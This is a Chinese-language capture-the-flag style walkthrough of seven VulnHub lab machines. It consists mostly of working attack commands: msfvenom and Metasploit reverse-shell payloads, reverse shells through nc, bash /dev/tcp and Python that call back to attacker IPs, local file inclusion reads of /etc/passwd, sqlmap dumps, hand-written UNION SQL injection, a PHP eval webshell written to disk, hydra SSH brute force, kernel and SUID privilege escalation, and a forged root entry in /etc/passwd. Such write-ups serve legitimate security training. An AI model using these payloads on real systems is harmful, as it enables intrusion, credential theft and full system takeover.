






# vulnhub靶场实战

## prime1关卡

```
打开靶场。但是不知道密码是多少，也不知道ip是多少，只知道有一个提示password.txt，目测里面存放的是密码。
该靶场的目标是以root权限，拿下该机子，并获得flag。
```

	

```
由于只确定这个靶机是15.0的C段，所以使用nmap扫描。于是扫描出靶机的ip是192.168.15.134
nmap -sP 192.168.15.1/24
参数解释
-sp:不执行端口扫描，只是通过发送 ICMP 回显请求（Ping）、TCP SYN/ACK 探测等方法来确定主机是否存活。
```

		

```
扫描这个主机，发现开放了80和22端口。
nmap -p 1-65535 -A 192.168.15.134
```

	

```
访问这个网页，发现空荡荡就一个图片。
```

	

```
于是对该网站进行目录扫描。发现有几个目录
dirsearch -u http://192.168.15.134/
```

	

```
为了确保万无一失，在对指定后缀进行扫描。又发现了一个secret.txt
dirb http://192.168.15.134 -X .txt,.php,.zip
```

	

```
依次访问这些网页发现/dev没线索,/image.php和访问访问该网站主界面没区别.此时访问secret.txt,而wordpress虽然是cms，但是没有密码和账号，所以先放着。
访问这个文件提示fuzz每一个网页的参数，并且也给了一个location.txt的提示。
```

	

```
首先使用fuzz测试，网站主页面index.php,其中FUZZ是占位符，让字典的每个值去遍历测试。
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.15.134/index.php?FUZZ
```

	

```
由于遍历的每个参数字典都是12W，即只有12个单词，说明肯定都是遍历失败的，所以我们需要过滤响应内容不为12个单词的情况。使用--hw进行过滤
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 http://192.168.15.134/index.php?FUZZ
于是遍历出file参数。
```

	

```
根据之前的提示location.txt，输入到file参数当中，得到新的提示secrettier360参数，并且这个参数是来自其他网页的。
```

	

```
于是想到image.php，试试看能不能进行文件包含等操作。参数传入内容/etc/passwd，竟然获得敏感文件的内容。尝试查看/etc/shadow失败了，说明可能权限不够。
```

	

```
curl http://192.168.15.134/image.php?secrettier360=/etc/passwd
发现这个文件中有提示信息，提示了password.txt的目录。
```

	

```
于是查看这个密码文件，得到密码follow_the_ippsec
curl http://192.168.15.134/image.php?secrettier360=/home/saket/password.txt
```

	

```
由于wordpress网页提示了账号是victor，当然就算不提示账号，也可以使用下面命令爆破账号
wpscan --url http://192.168.15.134/wordpress/ --enumerate u
尝试使用这个密码进行登录，发现失败了,那么这个密码只可能是wordpress的。
```

	

	

	

```
对wordpress进行cms扫描,扫描出wordpress的版本。
cmseek -u http://192.168.15.134/wordpress/
```

	

```
使用msf生成php的木马文件，并把内容粘贴到wordpress的编辑代码中。由于wordpres中的apperance中的Theme Editor具有编辑文件的漏洞。
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.15.128 lport=7777 -o shell.php
```

	

```
kali开始进行监听
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.15.134
set lport 7777
exploit
```

```
访问该网站即可获得shell。
至于为什么会知道上传的文件是这个目录，由于wordpress的cms源码公开，很多人搭建过，可以自己搭建会发现上传之后就存在以下目录，而且前面网站选择的主题是twentynineteen，所以更确信目录是这个了。
http://192.168.15.134/wordpress/wp-content/themes/twentynineteen/secret.php
```

	

```
得知这个是普通用户，并且得知操作系统发行版是16.04，且内核版本是4.10，于是即可查找适合该版本的内核提权的漏洞
```

	

```
searchsploit 16.04 Ubuntu
发现有提权漏洞，并且符合指定的内核版本和发行版本。这个内核漏洞是个c文件。
```

		

```
将这个c文件复制出来。
cp /usr/share/exploitdb/exploits/linux/local/45010.c /root
编译得到脚本。
gcc 45010.c -o 45010
```

	

```
上传这个恶意脚本到靶机上。
upload /root/45010 /tmp/45010
```

	

```
进到shell
执行以下命令,即可获得root权限。如果出现运行45010提示失败，大概率是kali新版本的gcc导致编译无法运行，可以换成kali2021来进行。
cd /tmp
chmod +x 45010
./45010
whoami
```

	

```
最后以root身份获得flag.
```

	

## breach1关卡

```
首先打开靶机部署好靶场，将网卡选择为仅主机，由于这个靶机是静态ip:192.168.110.140，所以我们建立在已经知道ip的基础上进行渗透测试。
```

	

```
对靶机的端口进行扫描。发现扫描出996个端口是开放的。
nmap -T4 -A -v 192.168.110.140
解释一下其中的参数
-T4：设置扫描速度，T5是最快扫描速度。-A：启用高级扫描功能。-v：增加输出的详细程度
```

	

```
由于端口过多，我们先从80端口开始排查，但是发现只是一个普通的页面。根据上面的英文提示，说了一个离职的员工给这个公司的web站点留下了后门礼物。
```

	

```
于是分析网站的源代码。发现有一串加密的字符串。根据这个字符串有64位，我们可以排除是md5和sha加密，由于是4的倍数，那么有可能是base64加密，那么我们可以使用工具进行解密试试。
```

	

	

```
将密钥复制到解码工具中，进行一键解码尝试。但是根据很多的解密算法的结果，发现都看不出什么东西来
```

		

```
于是认为可能是base64的二次加密，那么复制base64解码进行二次解密。发现里面是一个用户名和密码的格式。我们先进行保留。
```

	

```
接下来对这个网站进行目录扫描。于是只扫冒出三个目录信息。由于三个网站中index.html就是默认网站，而server-status无权限访问，那么只能去访问images
dirb http://192.168.110.140/
```

	

```
但是访问这个站点，也只是发现有6个图片而已，暂时不知道有什么有用的信息。
```

	

```
于是检查主站点，发现这个image图像可以点击进入。
```

	

```
进入到该网页中，第一个是返回主页，中间两个是图片，第四个是cms站点。
```

	

	

```
由于是cms站点，那么肯定要收集其中的版本以及一些相关信息。分别收集到一些操作系统、后端语言、以及网站服务等信息。
whatweb http://192.168.110.140/impresscms
```

	

```
由于收集到账号和密码，那么根据这对账号密码尝试登陆cms系统。
pgibbons:damnitfeel$goodtobeagang$ta
```

	

```
进行cms站点后，发现inbox邮箱有三封邮箱，有两封邮箱讲的是废话。
其中一封邮箱信息发现里面有一个SSL证书文件。于是根据这个网页地址进行访问下载。
```

	

```
并且在该网站进行信息收集时收集到一个有趣的文件。发现有一个pcap文件，这个是wireshark的文件。
```

	

```
通过这段英文提示，可以得知这个ssl密钥文件的密码是tomcat.并访问指定的网址下载pcap文件。
```

	

```
使用wireshark打开里面很多是TLS协议(https协议的数据)，由于经过加密什么都差看不到，于是联想到一开始下载的密钥文件。
```

	

```
查看证书。这个keytool是jdk自带的，只要配置了jdk环境就能使用。
keytool -list -keystore keystore
查看证书后，下面提示使用指定的命令格式，即可导出SSL证书。
```

	

```
使用以下命令导出密钥。
keytool -importkeystore -srckeystore keystore -destkeystore tomcatkeystore.p12 -deststoretype pkcs12 -srcalias tomcat
```

	

```
点击wireshark中的编辑–首选项–Protocols–TLS（2019年之前的版本是SSL），点击右边的Edit
```

	

```
设置ip端口等等信息。协议还是设置成http,其中port中8443是tomcat当中https的常用端口。keyfile设置成导出的密钥。导入好密钥即可查看https的加密数据。
至于为什么填8443而不填443，可以随便打开一个TLS协议的数据包，发现目的端口都是8443.
```

	

```
过滤wireshark的一些包,筛选的包数据都是该靶场的ip.
ip.src == 192.168.110.140 || ip.dst == 192.168.110.140 and http
通过wireshark的流量包分析，发现访问了一个疑似管理后台的网站。
```

	

```
于是访问这个网址https://192.168.110.140:8443/_M@nag3Me/html
由于本地win10的证书不信任这个网址，所以无法访问，所以只能使用bp的游览器进行访问。
```


```
刚来就要输入用户名和密码，这是典型的http基本认证。
```

	

```
继续分析wireshark数据包，发现里面具有http基本认证的用户名和密码，于是即可登录。tomcat:Tt\5D8F(#!*u=G)4m7zB
```

	

```
登陆后发现是一个tomcat的网站站点管理后台。
```

	

```
由于可以进行war包部署，所以可以部署war包木马。
msfvenom -p java/meterpreter/reverse_tcp lhost=192.168.110.100 lport=7777 -f war -o kali.war
```

	

```
进行监听。
msfconsole
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lhost 192.168.110.100
set lport 7777
run
```

	

```
部署木马war包，并点击该站点，即可触发木马反弹shell.
```

	

	

```
于是拿到shell了，但是是普通用户。
```

	

```
使用shell来远程进入shell，由于是非交互，可以使用这个python命令变成交互的shell.
python -c 'import pty;pty.spawn("/bin/bash")'
```

	

```
查看用户文件信息。
cat /etc/passwd
```

	

```
然后有查找网站根目录，发现一个目录很奇怪以数字命名，进入后可以发现里面有很多文件。
```

	

```
于是进行查看。得知mysql的root密码为空，于是即可进行登录。
```

	

```
收集数据库里面的信息，发现mysql数据库中的表user里面貌似是存放用户和密码的地方。
```

	

```
虽然里面没有root密码，但是根据之前查找/etc/passwd的用户信息中，确实也有milton用户，根据这个密码的内容只有0-9,a-f的情况,可以使用md5尝试解密。
去网上md5解密当中可以得到密码是thelaststraw
```

	

	

```
进入该用户的家目录，发现有一个脚本文件，查看却发现英文提示说什么都没有。
```

	

```
于是只能去分析history的命令记录。发现这个用户曾经登录过blumbergh用户。
```

	

```
接下来这个用户的密码，其实根本没思路知道，只能根据之前前面访问网站的六张图片中寻找密码，这就是图片隐写术，里面隐藏了该用户的密码信息。分别获得六张图片。
wget http://192.168.110.140/images/bill.png
wget http://192.168.110.140/images/cake.jpg
wget http://192.168.110.140/images/initech.jpg
wget http://192.168.110.140/images/milton_beach.jpg
wget http://192.168.110.140/images/swingline.jpg
wget http://192.168.110.140/images/troll.gif
其中bill.png存放了密码。
使用strings bill.png获得密码信息。
```

	

```
当然使用exiftool更容易找到隐写图片的密码
exiftool bill.png
```

	

```
登录到blumbergh用户，发现家目录什么都没有，于是分析history,发现该用户执行过一个脚本。
```

	

```
查看此脚本的内容。发现里面提示说该文件每隔三分钟会执行一次。
```

	

```
查看该用户什么命令可以以root权限执行。发现这个脚本和tee命令可以以root权限执行，而且不用输入root的密码。
sudo -l
```

	

```
tee这个命令可以把一个文件的内容覆盖掉原先文件的内容。
于是创建一个木马文件。
echo "nc -e /bin/bash 192.168.110.100 5555" > shell.txt
```

	

```
kali机器进行监听
nc -lvvp 5555
```

```
然后把这个反弹shell的内容，覆盖到这个tidyup脚本当中，最后等待三分钟即可获得root权限。
cat shell.txt | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

	

	

## dc9关卡

```
打开靶场后，首先使用nmap进行扫描C段，判断该主机的ip地址是哪个。
nmap -sP 192.168.15.1/24
```

	

```
扫描该主机开放的端口
nmap -sC -sV -oA dc-9 192.168.15.136
参数解释,-sC启用 Nmap 的默认脚本集,-sV启用服务版本检测。-oA dc-9,将扫描结果输出为所有常见格式，并以指定的基文件名保存。

发现其中有22端口和80端口是开放的，但是ssh的状态是filtered,说明可能使用过滤条件来限制使用该端口，一般是用knoced服务，不过先不做考虑，先访问web页面。
```

	

```
打开就是一个普通的web页面，查看源码里面也没有什么提示信息，于是先对网站进行目录扫描。
```

	

```
对网站进行目录扫描
dirb http://192.168.15.136
```

	

```
其中访问这个网页显示无权限。
```

	

```
由于这个网站有search可以进行搜索。于是可以检查是否有sql注入。
```

	

```
发送是一个post请求进行传参，参数是search.
```

	

```
尝试能否sql注入。如果能显示内容说明存在sql注入。
```

	

```
由于显示所有的查询结果，说明存在sql注入。
```

	

```
于是可以使用sqlmap，来获取这个网站所有的数据库信息。
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" --dbs
参数解释,-u指定目标URL进行测试。--data "search=1"：以POST方式发送数据，其中 search=1 是要测试的参数。--dbs：一旦发现注入点，列出目标服务器上的所有数据库。
发现有三个数据库，第一个很明显是系统库，先第三个user数据库。
```

	

```
查看users数据库中有哪些表。
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" -D users --tables
```

	

```
导出这个表的所有数据信息，获得所有账户和密码信息。
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" -D users -T UserDetails --dump
```

		

```
登录的时候检测出是post请求，并且传递了两个参数，分别是username和password
```

	

```
将user名和password分别存到自定义的user_dict和pass_dict文件中。然后使用wfuzz来
wfuzz -z file,user_dict -z file,pass_dict -d "username=FUZZ&password=FUZ2Z" http://192.168.15.136/manage.php
其中参数-d：指定要发送的HTTP请求体
```

	

```
由于结果太多使用-hw进行爆破内容的过滤。过滤响应包为93个单词的内容,发现为空，说明没有一个匹配上的。
wfuzz -z file,user_dict -z file,pass_dict --hw 93 "http://192.168.15.136/manage.php?username=FUZZ&password=FUZ2Z"
```

	

```
于是在使用sqlmap查看另外一个staff数据库
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" -D Staff --tables
```

	

```
于是查看Users表的数据。由于里面存储的密码是哈希，可以交给sqlmap进行进一步的哈希碰撞来得到结果
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" -D Staff -T Users --dump
```

	

```
最后得到账号和密码。分别是admin和transorbital1
```

	

```
此时使用该账号和密码登录网站是成功的。
```

	

```
由于存在一个files不存在的提示，那么说明极其可能存在文件包含的漏洞。
```

	

```
但是不知道有哪些参数，所以使用wfuzz暴力得到参数。但是由于响应包的word数量都是100，所以使用--hw做了过滤。最后暴力获得参数file.
wfuzz -b 'PHPSESSID=utal40t5t9mqt5d7p8n4d40rfk' --hw 100 -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.15.136/manage.php?FUZZ=../../../../../etc/passwd
```

	

```
最后发现确实存在文件包含漏洞的问题。
```

	

```
由于之前mysql数据库暴力破解得到的密码没有在web上登录，那极其可能是操作系统的用户，于是开始使用暴力破解ssh。但是会发现无法连接，这个就和之前所说的knockd服务有关系了。
hydra -L user_dict -P pass_dict 192.168.15.136 ssh
```

	

```
于是查看knockd服务的配置文件，发现一对序列号，只要根据这个顺序访问7469、8475、9842端口后，即可正常访问22端口。
```

	

```
使用nmap按序访问这三个端口。会发现ssh的状态变成open了。
nmap -p 7469 192.168.15.136
nmap -p 8475 192.168.15.136
nmap -p 9842 192.168.15.136
nmap -p 22 192.168.15.136
```

	

```
于是再次对ssh进行密码爆破，分别暴力破解出三个用户
hydra -L user_dict -P pass_dict 192.168.15.136 ssh
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
```

		

```
于是可以登录到这些用户上。其中另外两个用户啥都没有。
```

	

```
查看janitor家用户中的隐藏文件中存放着密码，把这些密码也存入自定义的密码本pass_dict中。
```

	

```
重新ssh密码爆破，爆破出新的用户fredf:B4-Tru3-001
hydra -L user_dict -P pass_dict 192.168.15.136 ssh  
```

	

```
登录这个新用户。
ssh fredf@192.168.15.136
```

	

```
发现这个用户可以以root权限并且无需登录，来执行test脚本。
```

	

```
发现这个脚本最后是执行test.py文件。
```

	

```
查找这个文件，并把查找错误的错误信息流，扔到/dev/null筛选不显示。
find / -name "test.py" 2>/dev/null
```

	

```
该python脚本就是把一个文件的内容读取，并写入到另外一个文件上。
```

	

```
先查看这个root，然后即可伪造这个格式，来伪造一个root用户。
```

	

```
生成一个admin用户，密码为123456的MD5+盐值加密。
openssl passwd -1 -salt admin 123456
参数解释
-1 的意思是使用md5加密算法，-salt 自动插入一个随机数作为文件内容加密。
```

	

```
将这个伪造的账户格式放入一个文件，并使用root权限把这个文件写入到/etc/passwd文件中，从而伪造root用户。
echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0:root:/root:/bin/bash' >> /tmp/passwd
```

	

```
登录伪造的admin用户，即可发现拥有root权限。
```

	

```
最后以root用户获得root目录下的flag文件。
```

	

## dc1关卡

```
首先打开靶场后，kali直接扫描存活主机。
nmap -sP 192.168.15.0/24
```

	

```
扫描靶机的端口,发现有22和80端口是开放的。
nmap -T4 -A -v 192.168.15.137
```

	

```
一打开就是一个drupal的cms系统。
```

	

```
检查出这个cms系统是Drupal7版本的
cmseek -u http://192.168.15.137/
```

	

```
使用msf寻找相关cms漏洞,使用2018年这个payload攻击脚本。
search drupal
```

	

```
运行msf恶意脚本获得掌控权。
use exploit/unix/webapp/drupal_drupalgeddon2
set rhost 192.168.15.137
run
```

	

```
获得交互shell.
```

	

```
访问该用户的flag1.txt文件得到提示，得知cms系统会有一个配置文件。
```

	

```
又因为Drupal的cms系统的配置文件默认在/var/www/sites/default/settings.php
访问这个配置文件，即可得到mysql的用户名和密码。dbuser:R0ck3t
cat /var/www/sites/default/settings.php
```

	

```
登录mysql查看数据库。
```

	

```
直接访问这个数据库的users表，找到了admin的密码，但是是经过加密的。
```

	

```
经过网上的查找得知该cms系统能使用自带的脚本进行密码的重置。所以设置密码为123456，得到一个新的hash.
php scripts/password-hash.sh 123456
将这个哈希保存下来。
$S$DeyXaLS2BDrhaeDw6PM.9PkWSPOGnsh8fdTl8pfysaCalz.Vq175
```

	

```
重新登录mysql，把这个hash替换掉admin的密码hash，即可重置密码成功。
update users set pass="$S$DeyXaLS2BDrhaeDw6PM.9PkWSPOGnsh8fdTl8pfysaCalz.Vq175" where name='admin';
```

	

```
于是使用新密码和admin用户去登录web网站。
```

	

```
登陆该cms有一个flag3提示文件
```

	

```
这里提示了有些文件具有suid权限，那么只要那些文件的所属者是root,那么任何用户都能以root权限运行该文件。
```

	

```
由于太多suid文件的权限了，这里按照关键字找，于是找到find存在suid权限。
find / -perm -400 2>/dev/null | grep 'find'
```

	

```
使用该suid命令进行提权操作。
find / -name cron.php -exec "/bin/sh" \;
```

	

```
最后成功得到root的flag文件。
```

	

## Kioptrix_Level_1关卡

```
首先扫描c段，找出靶机的ip。
nmap -sP 192.168.15.1/24
```

	

```
扫描该主机的端口，发现有samba服务开放，一般samba是最容易出现漏洞的。
nmap -p 1-65535 -A 192.168.15.138
```

	

```
于是使用msf对samba的版本进行扫描，判断是否有漏洞。于是扫描出是版本2.2.1a
msfconsole
search smb_version  #查询扫描smb的模块有哪些
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.15.138
set threads 50
run
```

	

```
根据这个版本查找有哪些samba漏洞，使用这个c文件的RCE漏洞。
```

	

	

```
编译成可执行文件，运行后即可获得shell.
```

	

```
对靶机执行这个恶意脚本即可，获得shell,当然这个执行文件具体怎么使用其实需要查看这个10.c文件。
./samba -b 0 -v 192.168.15.138
```

	

```
当然这个还能从另外一个角度进行考虑，一开始扫描靶机的端口中开放80端口，其中使用了mod_ssl,且得知版本是2.8.4,这个也容易经常造成漏洞。
```

	

```
使用47080.c的恶意脚本即可，因为符合版本漏洞要求。
searchsploit mod_ssl 2.8 
```

	

```
复制到根目录下
cp /usr/share/exploitdb/exploits/unix/remote/47080.c /root/47080.c
```

	

```
查看这个c文件知道怎么编译和所需要的函数库。
```

	

```
于是安装函数库并编译。
apt-get install libssl-dev
gcc -o OpenFuck 47080.c -lcrypto
./OpenFuck
运行可执行文件中告诉了使用方法。
```

		

```
找到符合的target值，ox6a刚好符合这个靶场的apache版本1.3.2
```

	

```
重新执行该恶意命令。于是得到shell，但不是root还需要进一步提权。
./OpenFuck 0x6b 192.168.15.138 443 -c 40
```

	

## Kioptrix_Level_2关卡

```
打开靶机后，开始扫描c段，来得到靶机的ip地址。
nmap -sP 192.168.15.1/24
```

	

```
扫描靶机开放端口。发现开放了80端口。
nmap -p 1-65535 -A 192.168.15.139
```

	

```
访问web界面，是一个登录框。
```

	

```
看到登录框可以尝试一下sql注入的万能密码。
-1' or 1=1#
```

		

```
登录进来就来一个ping的界面，那一般来说可能会具有RCE漏洞，于是后面嵌套多执行一个whoami.
127.0.0.1;whoami
```

	

	

```
于是kali开始监听端口
nc -lvvp 8888
在靶机的web多执行一个反弹shell.
127.0.0.1;bash -i>&/dev/tcp/192.168.15.135/8888 0>&1
```

	

```
于是获得了shell。
```

	

```
收集系统信息，得知内核版本是2.6.9-55.EL，发行版本是centos4.5
uname -a
cat /etc/*-release
```

	

```
查询这个版本的漏洞，正好符合版本要求，并且第二个是提权的漏洞。
searchsploit centos 4.5
```

	

```
将这个c文件放到root目录下，并在root目录下开启web服务器，以便靶机能下载。
python -m SimpleHTTPServer 8086
```

```
在靶机下载恶意c文件。
cd /tmp
wget http://192.168.15.135:8086/9542.c
```

	

```
编译这个c文件并运行
gcc -o payload 9542.c && ./payload
```

	

```
修改root密码。后面即可以root的身份进行远程连接。
```

	

	

## pWnOS v2.0关卡

```
打开靶机，这个靶机的ip是固定的10.10.10.100
首先对这个靶机进行端口扫描。分别有80和22端口开放。并且得知了ssh和apache的版本都是低版本的。
nmap -T4 -A -v 10.10.10.100
```

	

```
访问网站，里面有一个登录框。
```


```
可以使用万能密码进行登录,但是登录里面的网站啥都没有。
-1' or 1=1#
```

​		

```
于是bp进行抓包判断是否有注入点。由于报错就说明有注入点了。
-1'union select 1#
```

	

```
于是猜解有多少个列，这里使用order by8没有报错，在往上加数字就会报错，说明有八个列。
-1' order by 8#
```

	

```
判断哪里有回显点。其中4是回显点。
-1' union select 1,2,3,4,5,6,7,8#
```

	

```
收集数据库版本信息
' union select 1,2,3,version(),5,6,7,8#
```

	

```
收集mysql当前用户。
' union select 1,2,3,user(),5,6,7,8#
```

	

```
查看当前的数据库是哪个
' union select 1,2,3,database(),5,6,7,8#
```

	

```
查询当前数据库有哪些表。
' union select 1,2,3,table_name,5,6,7,8 from information_schema.tables where table_schema=database()#
```

	

```
查看users表有哪些字段
' union select 1,2,3,group_concat(column_name,' '),5,6,7,8 from information_schema.columns where table_name="users"#
```

	

```
查找email和pass密码字段的内容。
' union select 1,2,3,group_concat(email,"--",pass),5,6,7,8 from users#
于是得到账号和密码，其中密码是经过加密的。
admin@isints.com--c2c4b4e51d9e23c02c15702c136c3e950ba9a4af
```

	

```
使用该命令，判断出加密的算法很可能是sha1哈希加密
hashid c2c4b4e51d9e23c02c15702c136c3e950ba9a4af
```

	

```
使用该网站https://www.somd5.com去碰撞哈希值，看看能否破解出来。
得到密码是killerbeesareflying
```

	

```
利用获得账号密码登录网站
admin@isints.com:killerbeesareflying
```

	

```
虽然登录成功，但是被检测出来是sql注入，被waf拒绝会话了。
```

	

```
查看这个login.php的源码发现了数据库的配置文件。
' union select 1,2,3,load_file("/var/www/login.php"),5,6,7,8#
```

	

```
查看该配置文件，又得到了另一个配置文件的路径
' union select 1,2,3,load_file("/var/www/includes/config.inc.php"),5,6,7,8#
```

	

```
于是找到了数据库的账号和密码。
' union select 1,2,3,load_file("/var/www/mysqli_connect.php"),5,6,7,8#
```

	

```
我们可以尝试使用这个账号密码去访问远程访问。但是会登陆失败。
于是只能写入php一句话木马。
' union select 1,2,3,"<?php @eval($_POST['cmd']); ?>",4,5,6,7 into outfile '/var/www/shell2.php'#
```

		

```
使用中国蚁剑连接。
```

	

```
kali做好监听。
nc -lvvp 7777
```

	

```
估计是操作系统做了安全加固，bash的反弹shell尝试不行，且nc的反弹shell也不行，那么只能使用python的反弹shell,里面填入攻击机的ip和端口。
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

	

```
原本发现在/var/html有这么个文件，但是结果发现/var也有这个配置文件。
```

	

```
查看这个文件，又发现有一个root的密码，看看能否登录。
root@ISIntS
```

	

```
最后登录成功。得到root权限。
```

	

